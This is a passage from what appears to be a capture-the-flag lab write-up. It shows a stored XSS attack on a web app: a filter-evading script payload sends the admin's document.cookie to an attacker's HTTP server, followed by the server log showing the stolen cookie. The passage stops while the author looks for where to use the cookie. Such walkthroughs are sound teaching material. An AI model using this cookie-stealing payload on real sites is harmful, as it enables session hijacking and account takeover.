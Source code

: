 ![image-10.png](../../IMAGES/image-10.png)

XSS works, let's try to steal the admin cookie with `OOB XSS` :

We can use the following payload:

```js
&lt;sscriptcript&gt;var i = new Image(); i.src = "http://10.14.21.28:8000/" + document.cookie;&lt;/sscriptcript&gt;
```

We need to set up a python server and wait two minutes for the admin to review the page:

```python
10.10.20.176 - - [04/Jul/2025 23:27:28] code 404, message File not found

10.10.20.176 - - [04/Jul/2025 23:27:28] "GET /login=hayley_is_admin HTTP/1.1" 404 -
```

We got our cookie:

```
hayley_is_admin
```

Since we got our admin cookie, we need to know in where to utilize it, if we go to the dashboard, nothing changes:


![image-11.png](../../IMAGES/image-11.png)
